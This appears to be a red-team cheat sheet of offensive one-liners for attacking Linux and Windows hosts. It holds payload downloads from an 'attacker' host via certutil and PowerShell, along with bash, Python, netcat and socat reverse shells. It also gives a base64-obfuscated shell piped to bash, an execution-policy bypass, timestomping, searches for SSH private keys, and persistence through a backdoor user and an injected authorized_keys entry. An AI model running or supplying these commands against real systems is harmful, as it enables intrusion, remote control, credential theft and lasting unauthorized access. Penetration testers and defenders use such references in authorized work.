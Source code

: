 # Red Team Tidbits Cheat Sheet

## 📥 File Transfer

```bash
# Windows: Download with certutil
certutil -urlcache -split -f http://attacker/payload.exe payload.exe
```

```bash
# PowerShell download
powershell -command "(New-Object Net.WebClient).DownloadFile('http://attacker/payload.exe','payload.exe')"
```

```bash
# Python HTTP server (Python 3.x)
python3 -m http.server 8080
```

```bash
# Python upload server
sudo python3 -m http.server --bind 0.0.0.0 8080 --directory /upload/dir
```

```bash
# Transfer with SCP
scp file.txt user@target:/tmp/file.txt
```

---

## 🧠 Shell Upgrades

```bash
# Bash TTY upgrade
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
stty raw -echo; fg
export TERM=xterm; reset
```

```bash
# Zsh TTY upgrade
python3 -c 'import pty; pty.spawn("/bin/zsh")'
Ctrl-Z
stty raw -echo; fg
export TERM=xterm; reset
```

```bash
# Socat reverse shell (on target)
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:attacker:4444
```

---

## ⤴️ Privilege Escalation Tips

```bash
# Find SUID binaries
find / -perm -4000 -type f 2>/dev/null
```

```bash
# Check for writable cron jobs
ls -la /etc/cron* /var/spool/cron/
```

```bash
# Check for world-writable files
find / -type f -perm -2 -ls 2>/dev/null
```

```bash
# GTFOBins quick privilege escalation
find / -type f -executable -exec basename {} ; | sort -u | grep -f <(curl -s https://gtfobins.github.io/gtfobins.json | jq -r '.[] | .name')
```

---

## 🔄 Reverse Shell One-Liners

```bash
# Bash reverse shell
bash -i >& /dev/tcp/attacker_ip/4444 0>&1
```

```bash
# Python3 reverse shell
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("attacker",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

```bash
# Netcat with -e (if supported)
nc -e /bin/bash attacker 4444
```

```bash
# Netcat without -e (fallback)
mkfifo /tmp/f; /bin/sh < /tmp/f | nc attacker 4444 > /tmp/f
```

---

## 🔍 Recon & Enumeration

```bash
# Find .ssh keys
find / -name "id_rsa" 2>/dev/null
```

```bash
# List users with shells
cat /etc/passwd | grep '/bin/bash'
```

```bash
# Find writable files
find / -writable -type f 2>/dev/null
```

```bash
# Check for Docker group access (container breakout)
groups
```

---

## 🕵️‍♂️ Evasion & Obfuscation

```bash
# Base64 encode payload
echo 'bash -i >& /dev/tcp/attacker/4444 0>&1' | base64
```

```bash
# Decode base64 on victim
echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS80NDQ0IDA+JjE=' | base64 -d | bash
```

```bash
# PowerShell bypass execution policy
powershell -ep bypass -c "Invoke-WebRequest ..."
```

```bash
# Touch file to change timestamp
touch -t 202201010000 file.txt
```

---

## 🔒 Persistence Nuggets

```bash
# Add backdoor user (if root)
useradd -m -s /bin/bash r3dt34m && echo 'r3dt34m:password' | chpasswd
```

```bash
# Add public key to authorized_keys
echo "ssh-rsa AAAA..." >> ~/.ssh/authorized_keys
```

---

